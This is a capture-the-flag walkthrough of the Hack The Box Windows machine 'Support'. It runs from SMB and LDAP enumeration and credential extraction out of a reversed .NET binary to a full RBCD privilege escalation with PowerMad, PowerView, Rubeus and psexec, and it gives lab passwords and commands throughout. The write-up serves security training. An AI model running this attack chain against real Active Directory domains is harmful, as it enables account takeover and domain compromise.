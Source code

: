 ## HTB: Support Walkthrough

### Box Info
- **Name**: Support
- **Release Date**: 30 Jul 2022
- **Retire Date**: 17 Dec 2022
- **OS**: [Windows](Windows.md)
- **Difficulty**: [Easy](Easy) (OSCP-like, OSEP-like)
- **Points**: 20

---

### Recon

#### Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 10.10.11.174
```
Key Ports:
- 53 [DNS](DNS)
- 88 [Kerberos](Kerberos)
- 389 [LDAP](LDAP)
- 445 [SMB](SMB)
- 5985 [WinRM](WinRM.md)

#### Named Contexts from LDAP
```
ldapsearch -h support.htb -x -s base namingcontexts
```
Main context:
```
DC=support,DC=htb
```

#### Hosts File Entries
```
10.10.11.174 dc.support.htb support.htb
```

---

### SMB Enumeration

#### List Shares
```
smbclient -N -L //support.htb
```
Interesting share:
```
support-tools
```

#### Access support-tools
```
smbclient -N //support.htb/support-tools
```
Found:
```
UserInfo.exe.zip
```

---

### Reverse Engineering UserInfo.exe

1. Extracted `UserInfo.exe.zip`
2. Ran `.\UserInfo.exe find -first '*'` to enumerate users
3. Located LDAP bind credentials in C# source via DNSpy:
   - **Username**: `support\ldap`
   - **Password (after decoding)**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### LDAP Search with Credentials
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Found account:
```
support
info: Ironside47pleasure40Watchful
```

### Evil-WinRM Shell as support
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
Got user flag:
```
C:\Users\support\Desktop> type user.txt
```

---

### BloodHound Analysis
- **Group**: Shared Support Accounts
- **Privilege**: GenericAll on `DC.SUPPORT.HTB`

---

### RBCD Attack (Resource-Based Constrained Delegation)

#### Upload tools:
- PowerView.ps1
- PowerMad.ps1
- Rubeus.exe

#### Add Fake Computer
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

#### Set RBCD ACL
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;${fakesid})"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity "DC" -Set @{"msds-allowedtoactonbehalfofotheridentity"=$SDBytes}
```

#### Get Hash and Impersonate
```
Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

---

### Remote Shell as Administrator

#### Export ticket and convert:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

#### Use psexec:
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

Got root flag:
```
C:\Users\Administrator\Desktop> type root.txt
```

---

### Beyond Root: Windows vs Linux Auth

- On Linux, captured cleartext LDAP credentials via Wireshark
- On Windows, NTLMSSP is used and credentials are not in plaintext
- Wireshark shows `simple` vs `sasl` difference in `bindRequest`

---

### Summary
- **Initial Foothold**: Reversed a .NET EXE to extract LDAP creds
- **User Access**: Found support user password in LDAP info field
- **Privilege Escalation**: Performed RBCD by adding a fake computer and impersonating Administrator via S4U2self/S4U2proxy